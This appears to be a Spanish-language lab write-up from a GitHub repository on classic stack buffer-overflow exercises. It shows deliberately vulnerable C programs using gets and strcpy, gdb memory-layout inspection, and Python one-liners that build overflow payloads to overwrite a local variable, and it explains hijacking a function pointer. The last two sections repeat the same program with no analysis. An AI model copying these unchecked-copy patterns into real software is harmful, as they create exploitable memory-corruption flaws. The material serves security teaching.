





# Buffer-Overflow-1
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int variable = 0;
    char buffer[14];

    gets(buffer);

    if(variable != 0) {
        printf("You have changed the value of the variable\n");
    } else {
        printf("Try again?\n");
    }
}
```


El desbordamiento se produce en la llamada a `gets(buffer)`; cuando se introducen más de 14 caracteres, porque buffer solo reserva 14 bytes en la pila y gets no hace comprobación de tamaño, escribiendo por encima del límite del array y sobreescribiendo datos adyacentes en el stack (incluido variable o metadatos del frame).

Se compila: `gcc -g -O0 -Wno-implicit-function-declaration programa.c -o programa`. 


El programa es un ejemplo clásico para practicar buffer overflow y cambiar el valor de una variable en la pila.

**Flujo general:**
- Declara una variable entera variable inicializada a 0 y un buffer de 14 bytes en el stack: `char buffer[14];`.
- Lee una línea de entrada con `gets(buffer);`, copiando lo que se escriba en stdin dentro de buffer sin comprobar el tamaño.
- Comprueba si variable sigue valiendo 0. Si conseguimos que cambie, entonces mostrará un mensaje distinto.

**Detalle paso a paso**
- `volatile int variable = 0;`: Variable se guarda en la pila y se marca como volatile para evitar que el compilador la optimice, garantizando que realmente exista en memoria y pueda ser sobreescrita por el overflow.
- `char buffer[14];`: Reserva 14 bytes contiguos en el stack, justo al lado de variable (dependiendo del compilador/ABI), lo que permite que un desbordamiento de buffer sobrescriba variable.
- `gets(buffer);`: Lee caracteres desde la entrada estándar hasta que encuentre un `\n` o `EOF` y los escribe en buffer, sin límite de longitud.
- Si introducimos más de 14 caracteres, se escribirá fuera de los límites del array, corrompiendo memoria adyacente en la pila, típicamente incluyendo variable.
- `if(variable != 0) { ... } else { ... }`:
    - Si el exploit de overflow ha conseguido que variable deje de ser 0 (por ejemplo, escribiendo suficientes bytes con un patrón adecuado), se imprime: `You have changed the value of the variable.`
    - Si no, se imprime: `Try again?.`

**Vemos algunos de los segmentos/secciones del ejecutable:** 
```
(gdb) info files
Native process:
        Using the running image of child process 20293.
        While running this, GDB does not access memory from...
Local exec file:
        `~/gdbgui_project/buffer-overflow-1', 
        file type elf64-x86-64.
        Entry point: 0x555555555060
        ....
        0x0000555555555000 - 0x0000555555555017 is .init
        0x0000555555555020 - 0x0000555555555050 is .plt
        0x0000555555555050 - 0x0000555555555058 is .plt.got
        0x0000555555555060 - 0x000055555555519e is .text
        ....
        0x0000555555557fc0 - 0x0000555555557fe8 is .got
        0x0000555555557fe8 - 0x0000555555558010 is .got.plt
        0x0000555555558010 - 0x0000555555558020 is .data
        0x0000555555558020 - 0x0000555555558028 is .bss
        ....
(gdb) 
```

**Mostramos más detalles por sección:**
```
(gdb) maintenance info sections
Exec file: `~/gdbgui_project/buffer-overflow-1', 
        file type elf64-x86-64.
 [10]     0x555555555000->0x555555555017 at 0x00001000: .init ALLOC LOAD READONLY CODE HAS_CONTENTS
 [12]     0x555555555050->0x555555555058 at 0x00001050: .plt.got ALLOC LOAD READONLY CODE HAS_CONTENTS
 [13]     0x555555555060->0x55555555519e at 0x00001060: .text ALLOC LOAD READONLY CODE HAS_CONTENTS
 [25]     0x555555558020->0x555555558028 at 0x00003020: .bss ALLOC
 [26]     0x00000000->0x0000001f at 0x00003020: .comment READONLY HAS_CONTENTS
 [27]     0x00000000->0x00000030 at 0x0000303f: .debug_aranges READONLY HAS_CONTENTS
 [28]     0x00000000->0x00000110 at 0x0000306f: .debug_info READONLY HAS_CONTENTS
 [29]     0x00000000->0x000000ba at 0x0000317f: .debug_abbrev READONLY HAS_CONTENTS
 [30]     0x00000000->0x0000005f at 0x00003239: .debug_line READONLY HAS_CONTENTS
 [31]     0x00000000->0x000000c4 at 0x00003298: .debug_str READONLY HAS_CONTENTS
 [32]     0x00000000->0x00000032 at 0x0000335c: .debug_line_str READONLY HAS_CONTENTS
```


**Segmentos del ejecutable:** Con la salida de `info files` y `maintenance info sections` se ve la parte del binario cargada en memoria (todas alrededor de 0x55555555xxxx):
- `.init` en 0x555555555000–0x555555555017: código de inicialización que se ejecuta antes de main (runtime de libc, etc.).
- `.plt / .plt.got` alrededor de 0x555555555020–0x555555555058: trampolines de llamadas a funciones externas (por ejemplo gets, printf) a través de la GOT/PLT.
- `.text` en 0x555555555060–0x55555555519e: código máquina del programa, incluyendo main.
- `.got` y `.got.plt` en 0x5555555557fc0–0x5555555558010: tabla de punteros a funciones y datos importados (direcciones reales en libc, etc.).
- `.data` en 0x5555555558010–0x5555555558020: datos globales/estáticos inicializados.
- `.bss` en 0x5555555558020–0x5555555558028: datos globales/estáticos no inicializados (inicializados a 0 en tiempo de carga).


**Vemos el mapa de memoria del proceso:** Con la salida de `info proc mappings` vemos todas las regiones mapeadas del proceso:
```
(gdb) info proc mappings
process 20293
Mapped address spaces:

Start Addr         End Addr           Size               Offset             Perms File 
....
.... 
0x00007ffffffde000 0x00007ffffffff000 0x21000            0x0                rw-p  [stack] 
```
donde:
- El stack crece hacia abajo; ahí se almacenan los frames de funciones, incluidos `buffer`, `variable` de main y el puntero `argv`.
- `variable` se almacena en el stack porque es una variable local automática, no estática ni global.
- En este info proc mappings aún no hay `heap` asignado: no aparece ninguna región anónima rw-p sin fichero asociada en la zona intermedia entre el binario y la pila. ¿Por qué no se ve heap? El programa nunca llama a malloc, calloc, realloc, new, etc., así que `brk` no reserva espacio de `heap` y el kernel no mapea la típica región `[heap]`.


**Esquema de memoria:** El programa se ajusta al esquema clásico de memoria de un proceso ELF de 64 bits en Linux: código y datos del binario en la parte baja, seguido de libc y demás librerías, heap, mmap‑anon, y finalmente la pila del proceso en la parte alta.

donde:
- `buffer` está en la dirección de memoria `0x7fffffffdd5e`.



donde:
- `variable` está en la posición de memoria `0x7fffffffdd6c`.


​
donde:
- El `contenido de la variable local argv` (el valor del puntero que apunta al array argv[]) es `0x7fffffffde88`.
- La `variable argv` (el char ** que vive en el frame de main) está almacenada en la dirección `0x7fffffffdd40`


**Layout real del frame de main en ejecución:** Vemos con gbd dónde se almacena cada cosas en el stack:
```
(gdb) p &buffer
$8 = (char (*)[14]) 0x7fffffffdd5e

(gdb) p &variable
$9 = (volatile int *) 0x7fffffffdd6c

(gdb) p &argv
$10 = (char ***) 0x7fffffffdd40

(gdb) p &argc
$11 = (int *) 0x7fffffffdd4c
(gdb) 
```
donde:
- Todos: `buffer`, `variable`, `argc` y `argv` se almacenan en el frame de main en la pila, en la región `[stack]`.
- `buffer (char[14])`: empieza en `0x7fffffffdd5e` y ocupa 14 bytes. Rango: `0x7fffffffdd5e – 0x7fffffffdd6b`.
- `variable (volatile int, 4 bytes)`: empieza en `0x7fffffffdd6c`. Rango: `0x7fffffffdd6c – 0x7fffffffdd6f`.
- `argc (int, 4 bytes)`: empieza en `0x7fffffffdd4c`. Rango: `0x7fffffffdd4c – 0x7fffffffdd4f`.
- `argv (char **, puntero de 8 bytes)`: empieza en `0x7fffffffdd40`. Rango: `0x7fffffffdd40 – 0x7fffffffdd47`.


**Observaciones clave:** `argv` y `argc` están más “abajo” en el stack (direcciones menores), luego vienen `buffer` y, justo a continuación, `variable`, lo que explica que un overflow de `buffer` pueda sobrescribir variable al escribir a partir de `0x7fffffffdd6c`.


**Script en python para explotar este stack overflow:**
```
python3 -c "print('A' * 20)" > payload.txt
```

**Otro script en python para explotar este stack overflow:**
```
python3 -c "import sys; sys.stdout.buffer.write(
    b'A'*14 +
    b'\x11\x12\x13\x14'
)" > pattern.bin
```

**Ejecución en gdbgui:** En gdbgui, abrimos esta aplicación. A continuación en la línea de comandos de GDB (abajo a la izquierda, donde se escriben los comandos), escribimos lo siguiente para reiniciar el programa leyendo desde ese archivo:
```
run < payload.txt
```
donde:
- Esto hará que el programa se inicie de nuevo y, cuando llegue al gets, leará automáticamente lo que hay en el archivo.
- Cuando ejecutemos el comando `continue`, veremos que ya entre en la parte del if que nos interesa.


donde:
- Usamos el comando de examen de memoria en la consola de gdbgui: `x/20xb buffer`. Esto mostrará 20 bytes empezando desde el buffer en formato hexadecimal.


donde:
- Vemos el valor de variable: `variable 336794129`. Como el desbordamiento tuvo éxito, ya no indica que vale `0`, muestra el mensaje `You have changed the value of...`.

# Buffer-Overflow-2
```
#include <stdlib.h>
#include <stdio.h>

void special(void)
{
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal(void)
{
    printf("this is the normal function\n");
}

void other(void)
{
    printf("why is this here?\n");
}

int main(int argc, char **argv)
{
    volatile void (*new_ptr)(void) = normal;  // <- firma correcta
    char buffer[14];
    gets(buffer);
    new_ptr();
    return 0;
}

```
donde:
- `volatile`: Indica al compilador que no optimice la variable `new_ptr`, asegurando que el desbordamiento funcione como se espera en entornos educativos.


Este programa es un ejemplo clásico de una vulnerabilidad de desbordamiento de búfer (buffer overflow). Está diseñado para demostrar cómo un atacante puede alterar el flujo de ejecución de un programa para ejecutar código que, en teoría, no debería ejecutarse.

Explicación paso a paso lo que sucede:
- El flujo esperado:
    - En condiciones normales, el programa hace lo siguiente:
    - Declara un puntero a una función llamado new_ptr y lo apunta a la función normal.
    - Reserva un espacio en memoria (un array) llamado buffer con capacidad para 14 caracteres.
    - Usa la función gets(buffer) para recibir una entrada del usuario.
    - Llama a la función a la que apunta new_ptr (que debería ser normal).

- El fallo de seguridad: gets(): El problema crítico es el uso de la función gets(). Esta función es extremadamente peligrosa porque no verifica cuántos datos introduce el usuario. Si escribimos más de 14 caracteres, gets() seguirá escribiendo en la memoria, invadiendo el espacio de otras variables.

- ¿Qué haría un "atacante"?
    - Si un usuario conoce la dirección de memoria de la función special(), puede enviar una cadena de texto larga que termine con esa dirección específica.
    - El programa llena el buffer.
    - El exceso de datos cambia el valor de new_ptr de normal a special.
    - Al final, el programa ejecuta new_ptr(), pero en lugar de imprimir "this is the normal function", ejecutará special() y dirá: "you did this, friend!".





# Buffer-Overflow-3
```
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```

# Buffer-Overflow-4
```
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```
